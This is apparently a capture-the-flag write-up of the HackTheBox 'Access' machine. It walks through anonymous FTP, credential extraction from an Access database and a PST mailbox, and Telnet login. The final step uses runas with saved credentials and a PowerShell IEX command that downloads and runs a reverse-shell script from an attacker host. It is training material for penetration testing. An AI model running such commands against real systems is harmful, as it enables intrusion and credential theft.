IP: 10.10.10.98
We’ll start off with an Nmap scan. 
FTP allows for anonymous login.  
We have to toggle FTP to binary mode with bin in order for the transfer to not error out.  
There are a lot of tables in the backup database. 
Using mdb-sql backup.mdb will show things nicely.
1
2
list-tables
go

There is an auth_user table. I can export the data with mdb-export backup.mdb auth_user

Trying the different credentials doesn’t get me into the Telnet port. 
It does validate that there is an engineer account on the system though. We’re unable to unzip the Access Control archive. 
7Zip is able to open it, but it’s password protected. 
We’re able to extract the archive using “access4u@security” as the password. 
Looks like the file is an outlook email folder. 
Outlook emails can be read with readpst.  
Now we have a mbox file which can be read with cat Access Control.mbox. 
Now we should be able to get into the system with Telnet using security:4Cc3ssC0ntr0ller.

The user flag is on the desktop.

After some based Windows enumeration we see that there are stored admin creds. 
They can be found in the credential manager. 
The credentials can’t be read. 
We’ll host a copy of mini-reverse. Then we can download it to the target using Certutil.exe. Update the IP and port; 443 is usually a safe port.    
Now we should be able to combine this with RunAs to get a shell as Administrator.
1
runas /user:ACCESS\Administrator /savecred "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.34:80/mini-reverse.ps1')"
 